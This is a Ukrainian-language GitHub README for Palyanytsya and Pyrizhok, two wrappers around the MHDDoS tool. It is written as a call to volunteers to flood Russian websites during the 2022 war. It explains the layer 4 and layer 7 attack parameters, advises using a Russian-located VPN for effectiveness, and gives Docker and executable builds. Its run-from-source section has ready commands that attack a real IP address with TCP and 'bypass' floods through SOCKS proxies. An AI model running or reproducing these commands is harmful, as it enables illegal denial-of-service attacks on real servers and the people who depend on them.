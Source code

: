 # Паляниця

../README.md)
https://github.com/pocket-sunflower/palyanytsya#parameters
https://virtualenv.pypa.io/en/latest/
https://git-scm.com/download/win
https://www.python.org/downloads/release/python-3102/
https://pypi.org/project/impacket/
https://support.microsoft.com/uk-ua/windows/%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D0%B8%D0%BD%D1%8F%D1%82%D0%BA%D1%83-%D0%B4%D0%BE-%D1%81%D0%BB%D1%83%D0%B6%D0%B1%D0%B8-%D0%B1%D0%B5%D0%B7%D0%BF%D0%B5%D0%BA%D0%B0-%D1%83-windows-811816c0-4dfd-af4a-47e4-c301afe13b26
https://git-scm.com/book/en/v2/Getting-Started-Installing-Git
https://brew.sh/
https://docs.docker.com/desktop/windows/install/
https://docs.docker.com/desktop/mac/install/
![GitHub last commit](https://img.shields.io/github/last-commit/pocket-sunflower/palyanytsya)
[![Python 3.10](https://img.shields.io/badge/python-3.10-f.svg)](https://www.python.org/downloads/release/python-360/)
![](https://img.shields.io/github/license/pocket-sunflower/palyanytsya)
![](https://img.shields.io/docker/pulls/pocketsunflower/pyrizhok?label=pyrizhok%20docker%20pulls)
![](https://img.shields.io/docker/pulls/pocketsunflower/palyanytsya?label=palyanytsya%20docker%20pulls)

Цифрова зброя проти xуйлoвської пропаганди.

Щоб негайно почати шкварити рашистські сайти – мерщій у [швидкий старт][docs-quickstart]! ⚡️

А коли ворожі сервери вже жаряться і є час почитати – ласкаво просимо вниз.

---

## Швидкі посилання

- [⚡ Швидкий старт][docs-quickstart]
- [🔥 Мотивація](#motivation)
- [🔧 Технічні деталі](#technical)
  - [📑 Параметри](#parameters)
  - [🍞 Випічка](#builds) / [детальний гайд][docs-builds-detailed]
  - [🥡 Запуск вихідного коду](#run-from-source) / [детальний гайд][docs-run-from-source-detailed]
- [🚀 Плани та колаборація](#plans-and-collaboration)

---

## <a name="motivation"></a>🔥 Мотивація

24-го лютого 2022 року Російська Федерація підступно напала на Україну. В перші дні нападу Мінцифри України оперативно організувало кібер-армію: легіон IT-фахівців та волонтерів, які доклали свої сили та вміння на протидію рашистському агресору у цифровому просторі.

Цей репозиторій – духовний спадкоємець декількох проектів, що допомагали нам тримати цифровий тиск по ворогу у перший тиждень війни. Наша ціль – зробити запуск цього коду якомога простішим для більшості людей і при тому зберегти ефективність і гнучкість опцій атаки.

Тож, вмикайте свої машини, відкривайте термінали, і вліпимо дружньою паляницею по системах окупантів!

Слава Україні! Ми разом і ми переможемо! 💙💛

---

## <a name="technical"></a>🔧 Технічні деталі 


[MHDDoS][mhddos-github] – це потужний пайтон-скрипт для виконання DDoS атак у різних режимах. Наш репозиторій надає для нього два прості врапери: 

- Пиріжок ([pyrizhok](pyrizhok.py)) – мінімалістична версія врапера, яка потребує лише **адресу цілі** для того, щоб запустити атаку. Тим паче, за бажанням можна надати інший **порт** і **протокол**. Створений для починаючих котиків 😸
- Паляниця ([palyanytsya](palyanytsya.py)) – це повний врапер для MHDDoS, який приймає **всі опції** з оригінального скрипта. Створений для досвідчених в IT котів та киць 😼


### <a name="parameters"></a>📑 Параметри

> **⚠** **ВАЖЛИВО:** Не забувайте користуватися VPN! Бажано з локацією в Росії - так ефективніше.

**Пиріжок** можна запускати без параметрів – під час запуску він сам спитає вас про те, кому і як треба вгатити.

Тим не менш, параметри можна передати наперед у такому форматі:

```bash
pyrizhok.py <target_address> <target_port> <attack_method>
```

Значення параметрів:

1. `target_address` – адреса цілі. Може бути URL або IP-адресою.
2. `target_port` – (опціонально) порт цілі.
3. `attack_method` – (опціонально, потребує вказаний порт) метод, який буде використовуватися для атаки. Список можливих  опцій можна побачити [в оригінальному доці MHDDoS][mhddos-github-layer7]. 

**Паляниця** дає доступ до всіх опцій в MHDDoS, яких немало, тому зараз рекомендуємо дивитися прямо в [оригінальну документацію][mhddos-github-launch]. Також деталі про параметри можна подивитися запустивши паляницю з параметром help: 
```bash
palyanytsya.py help
```

Мапа параметрів залежить від того, на який шар мережі ведеться атака.

- Layer 7: 
   ```bash
   palyanytsya.py <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>

- Layer 4: 
  ```bash
  palyanytsya.py <method> <ip:port> <threads> <duration>
  ```



### <a name="builds"></a>🍞 Випічка

Паляниця та пиріжок запаковані в декілька різних форматів, аби зменшити час на налаштування і запуск до мінімуму.

> **ℹ** Детальний гайд про те, як самостійно запекти пиріжок та паляницю [можна знайти тут][docs-builds-detailed].

**PyInstaller 🐍** Standalone версії обох програм запаковані за допомогою [PyInstaller][pyinstaller]. Python-скрипти для створення білдів можна знайти у папці [build_scripts_PyInstaller](build_scripts_PyInstaller). Зауважте, що білд створюється для тієї ж платформи, на якій запущено скрипт (наприклад, щоб збілдити проект на Mac - треба запустити бідповідний білд на машині з macOS). Вихідні файли знаходяться у своїх папках:
- 💻 Білди .exe для Windows – в [executables/Windows](executables/Windows).
- 🐧 Білди для Linux – в [executables/Linux](executables/Linux).
- 🍎 Білди для Mac – в [executables/Mac (Intel)](executables/Mac%20(Intel)) та [executables/Mac (M1)](executables/Mac%20(M1)).

**Docker 🐋** Скрипти для збирання Docker-контейнерів та самі Dockerфайли знаходяться в папці [build_scripts_Docker](build_scripts_Docker). Найновіші версії обох контейнерів також доступні у репозиторії Docker Hub:
- [pocketsunflower/pyrizhok:latest][dockerhub-pyrizhok]
- [pocketsunflower/palyanytsya:latest][dockerhub-palyanytsya]

Якщо хочете створити білди самостійно – ласкаво просимо в [детальний гайд][docs-builds-detailed].



### <a name="run-from-source"></a>🥡 Запуск вихідного коду

Щоби запустити пиріжок чи паляницю з джерела на Linux:

> **ℹ️** Детальніші інструкції про те, як запустити програму з вихідного коду [можна знайти тут][docs-run-from-source-detailed].

1. Клонуємо цей репозиторій та заходимо в папку з кодом:
    ```bash
    git clone https://github.com/pocket-sunflower/palyanytsya
   cd palyanytsya 
    ```

2. Створюємо віртуальне середовище та активуємо його:
    > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**](https://www.python.org/downloads/release/python-3102/).
    ```bash
    python3 -m virtualenv --python python3.10 venv
    source venv/bin/activate
    ```

3. Встановлюємо залежності:
    ```bash
    pip install -r requirements.txt
    ```

4. Запускаємо пиріжок (або паляничку) з потрібною адресою, наприклад _194.85.30.210_ ([саме так][same-tak]):
    ```bash
    python3 pyrizhok.py 194.85.30.210 443 TCP
    ```
    ```bash
    python3 palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

    …і те, що за адресою, відправляється вслєд за рускім корабльом.

Щоби дізнатися, я запускати пиріжок та паляницю на кожній з доступних платформ, [ласкаво просимо в детальніший гайд][docs-run-from-source-detailed].

---

## <a name="plans-and-collaboration"></a>🚀 Плани та колаборація

Найближчим часом планується:
- ✅ ~~Додати кращий логінг статусу атаки (наразі атака іде у фоновому режимі, без індикації статусу).~~
- Додати новий клієнт для автоматичного «тестування» [адрес][db1000n-targets] наданих проектом [«Death by 1000 needles»][db1000n]. Це допоможе нам бути більш скоординованими та ефективними.
- Додати автоматизацію білдів для усіх платформ через CI.
- Whatever else may come…

Якщо ви можете допомогти з будь-яким пунктом вище, або у вас є ідеї про те, як покращити існуючий код, ми будемо дуже вдячні - відкривайте [issues][repo-issues] та пропонуйте [pull requests][repo-pull-requests]. Єдина умова - чітко поясніть, що ви хотіли би змінити, щоб ніхто не витрачав часу на непорозуміння.

---

<div style="text-align: center">Бережіть себе! Все буде Україна! </div>

<div style="text-align: center">💙💛</div>

<div style="text-align: right"><span style="font-style: italic">Pocket Sunflower </span>🌻</div>



<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[mhddos-github-launch]: https://github.com/MHProDev/MHDDoS#launch-script
[mhddos-github-layer7]: https://github.com/MHProDev/MHDDoS#features-and-methods
[pyinstaller]: https://pyinstaller.readthedocs.io/en/stable/index.html
[db1000n]: https://github.com/Arriven/db1000n
[db1000n-targets]: https://github.com/db1000n-coordinators/LoadTestConfig/blob/main/config.json
[repo-issues]: https://github.com/pocket-sunflower/palyanytsya/issues
[repo-pull-requests]: https://github.com/pocket-sunflower/palyanytsya/pulls
[dockerhub-pyrizhok]: https://hub.docker.com/repository/docker/pocketsunflower/pyrizhok
[dockerhub-palyanytsya]: https://hub.docker.com/repository/docker/pocketsunflower/palyanytsya
[same-tak]: https://www.nslookup.io/dns-records/mid.ru
[docs-quickstart]: docs/QUICKSTART.md
[docs-builds-detailed]: docs/BUILDS.md
[docs-run-from-source-detailed]: docs/RUN_FROM_SOURCE.md
